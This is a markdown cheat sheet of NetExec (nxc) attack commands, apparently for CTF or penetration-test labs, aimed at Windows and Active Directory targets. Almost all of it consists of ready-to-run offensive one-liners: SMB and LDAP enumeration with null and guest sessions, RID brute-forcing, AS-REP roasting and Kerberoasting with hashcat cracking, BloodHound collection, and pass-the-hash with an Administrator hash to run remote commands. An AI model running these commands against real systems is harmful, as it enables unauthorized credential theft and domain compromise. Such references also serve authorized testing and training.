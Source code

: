 # nxc
#plateform/linux #target/remote #cat/ATTACK

## nxc smb spider module
```
nxc smb <ip>  -u  <user> -p '<passwd>' -M spider_plus 
```

## nxc2 for generating HOST File
```
nxc smb <ip> --generate-hosts-file hosts_file 
```

## SMB all in one
```
nxc smb <ip> -u '<user>' -p '<passwd>' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB null all in one
```
nxc smb <ip> -u '' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB guest all in one
```
nxc smb <ip> -u 'a' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## LDAP anonymous all in one
```
nxc ldap <ip> -u '' -p ''
```

## LDAP all in one
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --users --asreproast hashes.asreproast --kerberoasting hashes.kerberoast; hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force; hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```
## Checking ADCS
```
nxc ldap <ip> -u '<user>' -p '<passwd>' -M adcs
```

## Check kcache tickets
```
nxc smb <ip> -k --use-kcache -u <user> -X "whoami"
```

## Generate krb5 file
```
nxc smb <ip> -u <user> -p <password> --generate-krb5-file <out_file>
```

## Execute bloodhound
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection All --dns-server <ip>
```

## Execute bloodhound w/o ObjectProps
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection Group,LocalAdmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn --dns-server <ip>
```

## Cat root.txt with administrator hash
```
nxc smb <ip> -u Administrator -H '<hash>' -x 'type C:\Users\Administrator\Desktop\root.txt'
```
